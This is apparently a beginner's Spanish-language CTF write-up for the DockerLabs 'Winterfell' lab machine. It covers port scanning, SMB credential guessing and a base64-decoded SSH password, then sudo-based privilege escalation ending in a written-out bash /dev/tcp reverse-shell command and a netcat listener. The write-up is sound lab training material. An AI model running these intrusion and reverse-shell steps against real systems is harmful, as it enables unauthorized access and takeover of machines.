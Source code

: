 # Winterfell

Hola, hoy voy a hacer la maquina de [DockerLabs](https://dockerlabs.es) llamada winterfell

## INTRUSIÓN

Primero iniciamos con un escaneo de puertos usando nmap:

![nmap](../../../maquina-winterfell/imagenes/nmap.png)

Vemos que los puertos abiertos son el 22, 80, 139 y 445, eso significa que tenemos ssh y smb

Puerto 80:

![Puerto80](../../../maquina-winterfell/imagenes/Puerto80.png)

ya que no se ve nada interesante hacemos fuzzing con gobuster:

"gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt":

![gobuster](../../../maquina-winterfell/imagenes/gobuster.png)

Podemos ver que hay un directorio llamado "dragon", entramos y vemos que hay un index a un archivo llamado EpisodiosT1, entramos y vemos lo siguiente:

![directoriodragon](../../../maquina-winterfell/imagenes/directoriodragon.png)

Ya que no hay nada mas intentaremos ver el puerto 443 usando smbmap, entrando de manera anonima no nos dice nada asique probaremos en meter los episodios que nos dieron en un .txt para poder intentar sacar la contraseña intentando con el usuario "jon" que salia en el puerto 80

![Contraseñajon](../../../maquina-winterfell/imagenes/Contraseñajon.png)

Vemos el usuario "jon" con contraseña "seacercaelinvierno", ahora si podemos usar smbmap con el usuario que encontramos "smbmap -H 172.17.0.2 -u jon -p seacercaelinvierno":

![SMB](../../../maquina-winterfell/imagenes/SMB.png)

luego ponemos "smbclient //172.17.0.2/shared -U jon" y nos guardamos el archivo que esta dentro con el comando "get": ![get](../../../maquina-winterfell/imagenes/get.png)

En el archivo vemos lo siguiente:

![prote](../../../maquina-winterfell/imagenes/prote.png)

asique lo metemos en un archivo y usamos el comando "base64 -d archivo.txt" para poder obtener la contraseña, y nos dirá que es "hijodelanister" suponemos que es la del ssh asique intentaremos entrar al ssh con el usuario jon y contraseña "hijodelanister", y entramos.

## ESCALADA

Ya estando dentro somos el usuario jon, por lo que ejecutaremos "sudo -l" para ver que comandos podemos ejecutar con sudo

![sudo](../../../maquina-winterfell/imagenes/sudo.png)

intentaremos modificar el archivo ".mensaje.py" usando "nano" y vemos que no esta el binario, tampoco vim, tendremos que hacerlo con echo "echo -e "import os\nos.system("/bin/bash")" > .mensaje.py" pero primero le cambiamos el nombre del archivo por cualquier otro usando "mv .mensaje.py mensaje". Luego lo ejecutamos con "sudo -u aria /usr/bin/python3 /home/jon/.mensaje.py" y ya seremos el usuario aria.

Como aria ejecutamos "sudo -l" y vemos que podemos ejecutar con sudo:

![ariasudo](../../../maquina-winterfell/imagenes/ariasudo.png)

vemos que podemos ejecutar "cat" y "ls" como daenerys, asique intentaremos hacer un ls a "/home/danerys" y vemos lo siguiente:

![ls](../../../maquina-winterfell/imagenes/ls.png)

Usaremos cat como daenerys y vemos el mensaje

![mensaje](../../../maquina-winterfell/imagenes/mensaje.png)

Asique cambiamos de usuario con "su daenerys" y ponemos la contraseña. Ejecutamos "sudo -l" y vemos que podemos ejecutar un script que esta oculto en la home de daenerys

![daesudo](../../../maquina-winterfell/imagenes/daesudo.png)

asique listamos los directorios con "ls -la" y vamos hasta el script

![directorios](../../../maquina-winterfell/imagenes/directorios.png)

ya estando ahi vemos lo que tiene el script y lo modificamos para que nos mande una revershell a nuestra ip con "echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/(nuestra ip)/443 0>&1' > .shell.sh". Luego nos ponemos en escucha con netcat en nuestra maquina usando "nc -nlvp 443" y listo, somos el usuario root

![final](../../../maquina-winterfell/imagenes/final.png)

si queremos podemos hacer el tratamiento de la tty para quedar con un terminal mas comodo pero hasta ahi llego yo.

Este es mi primer tutorial y si no se entiende mucho perdon, tampoco soy experto y tambien estoy aprendiendo. Gracias
